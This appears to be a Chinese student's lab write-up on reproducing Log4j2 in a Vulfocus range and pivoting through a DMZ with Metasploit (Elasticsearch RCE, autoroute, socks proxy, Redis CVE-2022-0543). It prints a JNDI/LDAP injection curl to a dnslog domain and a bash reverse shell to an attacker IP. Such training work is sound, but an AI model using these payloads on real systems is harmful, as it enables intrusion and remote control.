






# Log4j2 漏洞复现及修复

## 1. 进入 Vulfocus 平台

通过克隆资源中的仓库地址来搭建平台，启动 Vulfocus 环境，并找到 Log4j2 漏洞，启动该漏洞。


## 2. 进入漏洞环境测试

成功启动漏洞后，获取漏洞的入口靶标并访问该地址，进入当前环境进行测试。



## 3. 获取容器信息并访问

通过执行 `docker ps` 指令来获取容器的名称和 ID，进入该容器的环境，并将路径下的 `demo.jar` 文件拷贝到宿主机。


## 4. 反编译与漏洞分析

使用反编译工具分析 `demo.jar` 文件中的源代码，找到潜在的漏洞部分代码。


### 漏洞代码分析

漏洞代码位于以下部分：

```java
logger.error("{}", payload);
logger.info("{}", payload);
```

该段代码容易导致 Log4j2 漏洞的触发。

## 5. 漏洞验证

### 手动验证漏洞

通过使用 DNSLog（dnslog.cn）生成随机域名来手动测试漏洞，并使用 `curl` 命令触发一次域名解析请求。


### 错误分析

在运行以下命令时，出现报错：

```bash
curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'
```

经询问 AI 大模型后得知，漏洞入口靶标的端口不支持 POST 方法。于是修改命令并成功运行。


## 6. 漏洞利用效果评估

### 反弹 Shell

通过在靶机中独立测试有效负载，成功连接攻击机并反弹 Shell，验证漏洞成功利用。


### 监听与获取 Flag

通过监听靶机的 `/tmp` 目录，成功获取包含漏洞 Flag 的文件。


### 反弹窗口连接报错分析

运行 `bash -i >& /dev/tcp/192.168.164.4/7777 0>&1` 时，出现了报错。进一步分析发现，bash 解释器的环境不支持该语法，导致了语法错误。


### 解决方案

将命令改为显式执行 `bash`，即可成功反弹 Shell。

## 7. 漏洞缓解并验证

修改漏洞环境变量后，重新解析 DNS 请求，验证更新的记录未生效，确认漏洞得到缓解。


## 8. 漏洞修复与验证

对漏洞进行修复后，进行验证，确保漏洞已被彻底修复。


# DMZ进阶实验：入口靶标的检测以及第一层内网渗透

## 本次实验靶场环境如下：


## 入口靶标的检测与漏洞攻击
1.Elasticsearch 代码执行漏洞存在于 Elasticsearch 1.4.0 到 1.4.3 和 1.5.0 到 1.5.2 版本中，可以通过特定的 HTTP 请求导致远程代码执行。在成功启动靶场后访问映射的端口得到漏洞版本信息：

漏洞版本为1.4.2符合远程代码执行的攻击手段。

2.使用Metasploit查询该漏洞的利用模块：


3.使用```show options```指令查看当前模块需要配置的参数，对```RHOST,RPORT,payload,LHOST```参数进行配置，配置完成后通过```exploit```指令进行攻击


4.执行完攻击之后会发现Metasploit 会建立与目标主机的反向连接。现在已经能够访问目标容器并执行命令，执行```getuid```发现输出的用户的确是靶机的用户root
利用ls /tmp指令尝试发现漏洞单flag

入口靶标成功攻破,场景进度来到20%


## 第一层内网渗透攻击
1.首先尝试升级入口靶标检测的shell为meterpreter shell(便于后面建立代理等系列工作)



这里发现原本的shell就是meterpreter shell，但是影响不大。接下来通过hosts查看主机信息时发现报了一个错误：数据库没有成功连接：


另开一个终端尝试通过超级用户连接到PostgreSQL数据库：
```
sudo -u postgres psql  #postgres为超级用户的用户名，psql为密码
```
进入数据库之后更改数据库用户管理文件
```
nano /usr/share/metasploit-framework/config/database.yml
```


重启数据库服务之后再次查看数据库运行状态，发现数据库成功连接


2.成功连接数据库之后尝试进入先前升级后的session中查看容器ip地址情况


发现真正的内网地址是192.169.85.4，于是通过```arp```和```route```指令查看网络拓扑情况，发现入口靶标主机还与192.169.85.0存在通信


3.接下来进入到先前升级过的会话中为```192.169.85.0/24```这个目标网段设置代理

通过```run autoroute -p```查看session是否建立


确认虚拟路由成功建立起来了，现在攻击机可以通过session 5来直接访问目标网段，也就是第一层内网了。正向代理完成。

4.得到内网目标网段后通过portscan端口扫描模块来对内网主机存在的漏洞进行端口扫描


依旧利用```show options```来查看模块需要配置的参数情况，对"required"为"yes"的参数进行配置：


接下来通过exploit指令运行端口扫描，成功发现内网中存活的两台主机：


接下来通过db_nmap对两台主机进行扫描，也能成功扫描到


5.通过socks_proxy模块进行代理，对攻击机1080端口进行监听，通过exploit运行




在攻击机上另开终端查看1080端口监听情况,发现1080端口成功开启代理


编辑```/etc/proxychains.conf```文件添加一个socks5的代理


之后开启一个通过代理服务之后的端口扫描,会发现漏洞段口```6379```是成功开放的，虽然这里的端口状态是"filtered"，但是是可以成功访问的。


6.验证完内网主机端口开放之后，通过metasploit对search功能查找相关漏洞单利用模块，这里我使用的是```exploit/linux/redis/redis debian sandbox_escape```模块


完成该模块的配置参数的编写，其中RHOST为目标主机的ip地址，由于第一层内网有两台主机，于是这里分别进行两次攻击：

同时场景的进度完成40%

接下来对第二台主机进行参数配置和攻击



同时场景进度来到60%，完成第一层内网的渗透


# 实验心得体会

## 实验目的

本次实验的主要目的是通过漏洞分析与利用的过程，熟悉安全漏洞的识别与攻击操作，提升网络安全技能。实验中使用了多个工具和技术，包括 Metasploit、Redis 漏洞利用（CVE-2022-0543）、SSH 配置等。通过这些操作，我加深了对渗透测试过程的理解，特别是在实际环境中如何实现攻击和防护。在本次搭建的靶场中我主要负责入口靶标的攻破以及第一层内网的渗透以及漏洞利用，为红队的攻击找到了正确的能够渗透下一层内网的靶机入口，绕开了迷惑网卡。

## 实验过程

### 1. **搭建实验环境**

首先，我在 Kali 虚拟机中配置了一个 **DMZ 靶场场景**，并成功运行了 Elasticsearch 服务。接下来，针对容器中的漏洞进行了测试和分析。通过网络扫描和端口探测，发现了多个潜在的漏洞，如 Redis 的 CVE-2022-0543 漏洞。

### 2. **漏洞利用过程**

我通过 Metasploit 框架选择了适当的模块（如 `exploit/linux/redis/redis_debian_sandbox_escape`）来尝试利用 Redis 漏洞。为了成功执行攻击，我首先配置了合适的 **PAYLOAD** 和 **SRVHOST**，并确保能够在攻击机与靶机之间建立连接。

在操作过程中，我遇到了一些常见问题，如远程连接问题、数据库配置问题、模块兼容性问题等。每次遇到这些问题，我都通过查阅文档和错误日志来进行排查和解决。

### 3. **通过 SSH 连接 GitHub**

我在实验过程中还遇到了一些与 GitHub 相关的问题。通过 GitHub 提交代码时，我遇到了连接问题，错误提示显示无法解析 GitHub 主机名 `github.com`。通过检查网络配置和 DNS 设置，我发现是 DNS 解析的问题。通过修改 DNS 配置并清理 DNS 缓存，最终成功解决了这个问题。

### 4. **调试与错误解决**

在整个实验过程中，我还遇到了多个错误和挑战，特别是在使用 Metasploit 执行攻击时，遇到的问题主要集中在以下几个方面：
1. **模块不兼容问题**：选择的攻击模块和所用的 `PAYLOAD` 不兼容，导致无法创建会话。通过更换不同的 `PAYLOAD` 进行尝试解决。
2. **网络连接问题**：在攻击机无法连接靶机时，检查了代理和 DNS 配置，并通过清除 DNS 缓存、修改网络设置来恢复连接。
3. **PostgreSQL 配置问题**：数据库未连接时，我花了一些时间检查 PostgreSQL 服务和数据库配置，并通过重新启动服务和手动配置来解决。

每次遇到这些问题时，我都首先通过错误日志和 Metasploit 的提示信息来查找原因，逐步排除故障。

## 遇到的困难

### 1. **模块兼容性问题**

在使用 Metasploit 时，我遇到了一些模块不兼容的问题，例如 **linux/x86/meterpreter/reverse_tcp** 和 **redis_debian_sandbox_escape** 无法兼容，导致攻击失败。通过尝试其他的有效 `PAYLOAD` 和不断调整攻击参数，最终找到了适合该漏洞的攻击方式。

### 2. **网络和 DNS 配置问题**

由于我的攻击靶场位于内网，我遇到了网络无法连接外部服务器的问题。特别是在通过 SSH 连接 GitHub 时，我无法解析 `github.com`，导致无法正常提交代码。通过修改本地 DNS 配置并清理缓存，我最终解决了这个问题。

### 3. **PostgreSQL 配置问题**

Metasploit 数据库未连接是我遇到的另一个问题。通过手动启动 PostgreSQL 服务，并配置正确的数据库用户名和密码，我成功解决了数据库连接问题。

## 解决办法

1. **更换兼容的 PAYLOAD**：对于 Metasploit 模块不兼容的问题，我通过查阅模块文档和测试其他可用的 payload，最终选择了适合该漏洞的攻击方式。

2. **修改 DNS 设置**：在无法访问 GitHub 时，我修改了系统的 DNS 配置，使用了 Google 的 DNS（8.8.8.8 和 8.8.4.4），并清除了 DNS 缓存，恢复了连接。

3. **修复数据库连接问题**：通过检查 PostgreSQL 服务状态并手动启动服务，确保数据库连接成功，避免了 Metasploit 的数据库连接错误。

## 实验总结

本次实验让我对漏洞利用、渗透测试工具（如 Metasploit）以及配置网络和数据库的技巧有了更深入的理解。尽管遇到了一些困难和技术挑战，但通过查阅文档、修改配置和不断尝试，我成功解决了问题并完成了实验任务。

通过此次实验，我不仅提高了对漏洞利用的理解，还增强了解决问题的能力，尤其是在网络配置和工具调试方面。未来我将继续进行更多的实验和实践，提升自己在网络安全方面的能力。
